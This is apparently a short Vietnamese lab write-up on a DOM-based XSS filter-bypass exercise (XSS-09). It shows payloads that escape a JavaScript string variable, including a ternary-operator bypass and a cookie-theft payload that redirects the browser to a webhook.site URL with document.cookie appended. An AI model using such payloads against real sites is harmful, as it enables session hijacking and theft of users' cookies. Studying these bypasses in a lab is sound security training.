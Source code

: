 ## XSS-09: **XSS DOM Based - Filters Bypass**

![image.png](Images/image%2029.png)

Bài này tương tự XSS-06, thử dùng `';alert(1);'` để thoát khỏi biến number nhưng kí tự `;` đã bị lọc

![image.png](Images/image%2030.png)

Thử dùng toán tử điều kiện, payload `1'?alert(1):'1`

![image.png](Images/image%2031.png)

Thử payload lấy cookie: 
`1'?document.location="https://webhook.site/3bef0358-33db-4a90-951a-6d0bedb6944f?c=".concat(document.cookie):'1`

![image.png](Images/image%2032.png)

